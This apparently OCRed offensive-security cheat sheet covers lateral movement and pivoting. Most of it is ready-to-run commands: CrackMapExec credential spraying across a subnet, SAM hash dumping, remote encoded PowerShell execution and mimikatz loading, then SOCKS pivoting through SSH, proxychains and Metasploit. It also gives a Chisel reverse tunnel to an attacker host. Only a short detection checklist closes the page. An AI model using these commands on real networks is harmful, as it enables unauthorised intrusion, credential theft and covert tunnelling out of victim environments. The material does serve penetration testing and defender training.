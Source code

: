 ### CrackMapExec Mass Exploitation
```bash
# Spray credentials across network
crackmapexec smb 192.168.1.0/24 -u admin -p password --exec-method smbexec -x "powershell -enc <BASE64>"

# Multiple credentials
crackmapexec smb 192.168.1.0/24 -u users.txt -p passwords.txt --continue-on-success

# Dump SAM hashes
crackmapexec smb 192.168.1.0/24 -u admin -p password --sam

# Execute module
crackmapexec smb 192.168.1.0/24 -u admin -p password -M mimikatz
```

### Pivoting & Tunneling
```bash
# SSH SOCKS proxy
ssh -D 9050 user@pivot-host

# Use with proxychains
proxychains nmap -sT -Pn 10.10.10.0/24

# Metasploit pivot
use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set SRVPORT 1080
run

# Add route
route add 10.10.10.0/24 session_id

# Chisel tunnel
# On attacker
./chisel server -p 8080 --reverse

# On pivot
./chisel client attacker-ip:8080 R:socks
```

---

## Detection & Mitigation

**Detection**:
- Monitor for unusual authentication patterns
- Detect lateral movement tools (PsExec, WMI)
- Alert on admin share access
- Track pass-the-hash attempts
